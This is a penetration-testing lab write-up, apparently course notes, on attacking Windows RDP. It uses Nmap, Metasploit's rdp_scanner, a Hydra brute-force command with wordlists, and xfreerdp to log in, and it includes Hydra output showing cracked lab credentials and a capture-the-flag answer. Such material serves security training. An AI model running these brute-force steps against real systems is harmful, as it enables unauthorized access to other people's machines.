 # Exploiting RDP

We can always connect to RDP in a remote machine that is running windows. However, in order to exploit RDP in a target system, you have to posses a legitimate username and password in clear-text for that machine.

RDP port can be changed by the administrator in order to hide the available running rdp server. You always have to make sure if RDP is running in a different port.

# Laboratory

- Run a simple Nmap scan on the target. Run a scan in all ports to spot any out of place open connection.
- In order to identify an RDP server running, you can always try to connect to the open connection. However, in this case we will use MSF to identify and exploit RDP.
*Note*: remember to run `service postgresql start` before starting msfconsole.
- In this case we will use `auxiliary/scanner/rdp/rdp_scanner` to identify RDP on the target.
- Once identified, we will proceed to try to exploit RDP. In this case, we will start by performing a bruteforce attack using Hydra. We can use the following command `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://x.x.x.x -s $PORT`.

[3333][rdp] host: 10.4.23.42   login: sysadmin   password: samantha
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.4.23.42   login: demo   password: victoria
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.4.23.42   login: auditor   password: elizabeth
[ERROR] freerdp: The connection failed to establish.
[STATUS] 5224.00 tries/min, 5224 tries in 00:01h, 1839 to do in 00:01h, 4 active
[3333][rdp] host: 10.4.23.42   login: administrator   password: qwertyuiop

*Note*: Sometimes hydra is too agressive for the target system, we can lower the number of tasks using the -t flag. Default is 16.
- Once some credentials have been found, we want to test them out stablishing a connection. For this task, we can use xfreerdp like this: `xfreerdp /u:USERNAME /p:PASSWORD /v:HOST_IP:PORT`.

flag: port-number-3333